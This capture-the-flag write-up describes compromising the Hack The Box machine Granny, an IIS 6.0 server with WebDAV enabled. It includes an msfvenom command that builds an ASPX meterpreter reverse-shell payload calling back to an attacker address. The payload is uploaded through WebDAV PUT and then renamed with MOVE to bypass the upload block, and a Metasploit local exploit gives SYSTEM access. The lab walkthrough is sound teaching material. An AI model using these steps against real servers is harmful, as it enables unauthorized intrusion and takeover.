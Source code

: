```yaml
---
title:     "Hack The Box - Granny"
tags: [windows,easy,isi,put]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/1.png)

We are going to pwn Granny from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/14>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sat, 07 Mar 2020 04:33:20 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  WebDAV type: Unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP:

The webpage is running as ``ISI 6.0`` from Nmap results. Like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa).<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/2.png)

The Nmap ``webdav-scan`` revealed that we have ``PUT`` options. I tried ``davtest``.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/3.png)

I opened one of the ``PUT`` link to see whats going.I captured the burp request.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/4.png)
We need to know the file extension to upload to get reverse shell.And it is Powered by ``ASP.NET`` so our payload must be in ``.asp or .aspx``.

Now we need create a payload and ``PUT`` to the website.
I used ``msfvenom`` for creating payload

>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=1234 -f aspx

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/5.png)

We I tried uploading the payload but I got ``403 Forbidden``.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/6.png)

We know the website have lot of ``Allowed Methods`` so I checked what ``MOVE`` will do?
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/7.png)

Since ``.aspx`` is not allowed to upload we can upload someother file and change the extension back to ``.aspx``.

I used ``.html`` to upload the same payload, now we can use ``Move`` to change its extension.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/8.png)

``201 Created`` It worked, Extension changed.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/9.png)

Started my Listener in ``Msfconsole`` <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/10.png)

## Privilege Escalation:

We can try try ``local_exploit_suggester`` before that, need to ``migrate`` process inorder to make it stable. So I won't face any errors while using any exploit.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/11.png)

Let's background this session and Use ``local_exploit_suggester``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/13.png)

So it's like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa) Box, same exploits.
I used the same ``windows/local/ppr_flatten_rec``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-granny/14.png)

Got NT AUTHORITY\SYSTEM



